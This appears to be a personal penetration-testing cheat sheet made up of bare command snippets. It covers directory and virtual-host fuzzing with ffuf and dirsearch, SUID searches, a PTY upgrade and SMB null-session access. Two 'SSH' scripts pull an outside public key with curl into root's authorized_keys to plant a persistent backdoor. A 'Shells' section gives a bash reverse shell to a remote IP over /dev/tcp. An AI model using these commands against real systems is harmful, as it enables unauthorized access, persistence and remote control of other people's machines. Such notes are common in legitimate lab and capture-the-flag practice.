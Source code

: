 Dirsearch

```
dirsearch -u target.com
```

VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```

Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

Fuzz content with cookies
```
ffuf -w Documents/fuzz/content_discovery_all.txt -b "JSESSIONID=weggejorist; BIGipServertest.domain.ondemand.com=weggejorist/wkJjIarIpdsw=; slo_regular_domains_eu1_ij1a2ql5iw_ij1ql5iw=weggejorist; JTENANTSESSIONID_ij1a2ql5iw=sRiYncosfVGnaRZ%2BpN3%2APj2zUuzsvmPcIT8%3D; dpd.sessionTimeout.start=weggejorist" -u https://weggejorist.domain.com/dpd-web/FUZZ
```

Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```

PTY
```
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Process tree
```
ps -ef --forest 
```

SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Simple HTTP python
```
python3 -m http.server 8000
```

SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
SMBclient null sessions
```
smbclient //10.129.173.93/support-tools -U " "%" "
```
### Shells
```
bash -i >& /dev/tcp/192.168.30.90/8080 0>&1

```
